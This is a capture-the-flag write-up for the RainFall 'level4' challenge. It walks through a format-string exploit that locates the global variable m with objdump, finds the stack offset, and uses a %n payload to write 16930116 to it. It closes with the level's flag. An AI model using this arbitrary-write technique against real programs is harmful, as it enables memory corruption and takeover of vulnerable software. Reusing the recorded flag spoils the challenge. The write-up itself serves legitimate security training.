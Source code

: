 # Level4

You can find the decomp [here]("./level4_decomp.c"), it's the same theory as the last level, find a variable address and write the correct value there which will be `16930116`.

## Exploit

### m address

We can find it using `objdump -t`:

```bash
08049810 g     O .bss   00000004              m
```

### Finding its offset

We can use the fact that the program uses `printf(buff)` as in the previous level:

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%x " * 12' | ./level4
�b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 8049810
```

Here we can see that the address of `m` is at the 12th offset

### Building our payload

Our payload will look something like this:

`[m address] + [number to write] [offset\n]`

## Solution

<details>
  <summary>Spoiler</summary>

  We will right the address of `m` followed by `16930116 - 4(size of the address)` characters. `%16930112x` will write 16930112 characters that will then be treated by `%12$n` as, write the number of bytes we wrote as a number in the 12th arguments which is our `m` address.

  `%<n>$n` let's you write at the n offset of printf' var_args, in our case it let's us "skip" the popping of address to get to the right stack addr. Which also avoid to take the size of the written popped address we would have using `%x%x%x` (here we would have to take into account the length of the 3 address, which could be of different sizes as we saw in the example above when trying to find the offset). It's easier to understand/read while keeping us away from missing offset here and there...

  ```bash
  python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"'
  ```

  This will result in a ton of spaces, followed by:

  ```bash
  b7ff26b0
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
  ```
</details>


## Flag

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a